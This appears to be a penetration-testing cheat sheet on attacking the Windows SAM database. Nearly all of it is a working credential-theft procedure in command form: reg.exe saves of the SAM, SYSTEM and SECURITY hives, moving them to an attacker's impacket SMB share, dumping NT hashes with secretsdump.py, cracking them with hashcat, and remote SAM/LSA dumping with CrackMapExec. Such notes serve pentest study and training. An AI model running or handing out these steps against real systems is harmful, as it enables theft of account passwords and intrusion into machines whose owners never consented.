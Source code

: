 


# Attacking SAM

[See Windows credentials storage](windows-credentials-storage.md).

## Dumping SAM Locally

### 1. Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. 

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|


Launching CMD as an admin will allow us to run reg.exe to save copies of the registry hives.

```cmd-session
reg.exe save hklm\sam C:\sam.sav

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Transfer the registry hives to our attacker machine, for instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move sam.save \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData
move security.save \\$ipAttacker\CompData
```


### 2. Dumping Hashes with Impacket's secretsdump.py

```bash
locate secretsdump 
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.


### 3. Cracking Hashes with Hashcat

[See hashcat](hashcat.md):

```bash
# Adding nthashes to a .txt File
# Copy paste them in hashestocrack.txt

# Hashcat them
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
# -m 1000: select module for NT hashes
```


## Dumping SAM Remotely

### With CrackMapExec

With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network. 

[Cheat sheet of CrackMapExec](crackmapexec.md).

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --sam

crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa

```